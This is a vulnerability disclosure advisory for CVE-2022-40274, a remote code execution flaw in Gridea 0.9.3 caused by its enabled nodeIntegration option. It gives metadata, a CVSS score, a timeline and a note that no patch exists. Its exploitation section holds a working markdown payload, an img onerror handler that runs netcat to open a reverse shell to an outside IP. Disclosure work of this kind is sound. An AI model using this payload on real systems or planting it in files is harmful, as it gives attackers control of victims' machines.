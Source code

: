 ```yaml
---
slug: advisories/marshmello/
title: Gridea 0.9.3  -  RCE via nodeIntegration feature
authors: Carlos Bello
writer: cbello
codename: marshmello
product: Gridea 0.9.3
date: 2022-09-26 02:30 COT
cveid: CVE-2022-40274
severity: 8.6
description: Gridea 0.9.3  -  RCE via nodeIntegration feature
keywords: Fluid Attacks, Security, Vulnerabilities, Gridea
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Gridea 0.9.3  -  RCE via nodeIntegration feature       |
| **Code name**         | [Marshmello](https://en.wikipedia.org/wiki/Marshmello) |
| **Product**           | Gridea                                                 |
| **Affected versions** | Version 0.9.3                                          |
| **State**             | Public                                                 |
| **Release date**      | 2022-09-26                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Remote command execution                                                                               |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)            |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:L/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 8.6                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-40274](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-40274)                        |

## Description

Gridea version 0.9.3 allows an external attacker to execute arbitrary
code remotely on any client attempting to view a malicious markdown
file through Gridea. This is possible because the application has the
"nodeIntegration" option enabled.

## Vulnerability

This vulnerability occurs because the application has the "nodeIntegration"
option enabled.  Due to the above, an attacker can embed malicious JS code
in a markdown file and send it to the victim for viewing to achieve an RCE.

## Exploitation

To exploit this vulnerability, you must send the following file to a user to
open with Gridea. The exploit is triggered when the user presses "CTRL+P" or
simply clicks "preview".

### exploit.md

```markdown
<img src=1 onerror="require('child_process').exec('nc 192.168.20.38 4444 -e /bin/bash');"/>
```

## Evidence of exploitation

![RCE-Gridea](https://user-images.githubusercontent.com/51862990/189430881-5d6db562-d650-42c1-af7b-bc0626d9dc89.gif)

## Our security police

We have reserved the CVE-2022-40274 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Gridea 0.9.3

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <https://github.com/getgridea/gridea>

## Timeline

<time-lapse
  discovered="2022-09-08"
  contacted="2022-09-08"
  replied=""
  confirmed=""
  patched=""
  disclosure="2022-09-26">
</time-lapse>
